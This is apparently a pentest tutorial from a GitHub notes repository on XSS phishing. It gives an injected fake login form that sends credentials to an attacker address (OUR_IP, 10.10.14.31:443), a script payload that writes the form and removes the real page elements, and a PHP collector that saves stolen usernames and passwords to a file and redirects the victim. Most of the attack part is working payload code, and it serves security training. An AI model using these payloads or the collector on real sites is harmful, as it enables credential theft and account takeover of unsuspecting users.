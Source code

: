 # XSS Phishing attack.
## Attack Overview
Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.</br>
A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. 
This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.<br />
__This time our target is:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/afc0a1f6-4b50-4f66-bb5a-db7207a3ad04" width="350"><br />
__After injecting our payload:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/8e956fb4-ee2a-4678-a574-bfd36b76e41f" width="350">

## Login Form Injection
This is a simple login form that we can inject.
Code: html
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
After we have found the correct payload we can try to load the login form. We have to minify our html login and add it to our payload.
__Result (minified html code + XSS payload):__
```html
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')</script>
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/390f7bb2-f462-4396-a6b9-86b9fcf94292
" width="350">

### Making it more realistic.
As we saw in the last picture We can still see the original web functionality, we must delete it to make our attack more realistic [Removing Elements]. We can delete part of the code that is being
shown after our injection too, to do so we only need to add a javascript comment after the payload`<!--`.
#### Removing Elements
For removing Elements we can use `document.getElementById()` function + `.remove()`.
- Obtaining the id of the element we want to remove:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c9e4c784-205a-4c97-8d66-641d5622e3b6" width="700"><br />
- Ading to our payload:
</br>
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.31:443><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c2040539-1a58-40c2-97d8-3dafc6a6535f" width="500">

## Executing the attack.
We can create a file to get and write the credentails we obtain in to a file. We will create a redirection to the original web page in the same file.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+"); #ESCRIBIENDO LAS CREDENCIALES EN UN ARCHIVO CREDS.TXT
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php"); #REDIRECCIÓN A UNA WEB LEGÍTIMA.
    fclose($file);
    exit();
}
?>
```
Once everything is ready we can send the phishing attack to our victim and just wait listening in the selected port of our payload.
![12](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/73ef1459-0d21-4a31-a150-f1e99496f839)

![13](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/ad3763e1-2ee6-447c-a831-680f03f5a8e2)






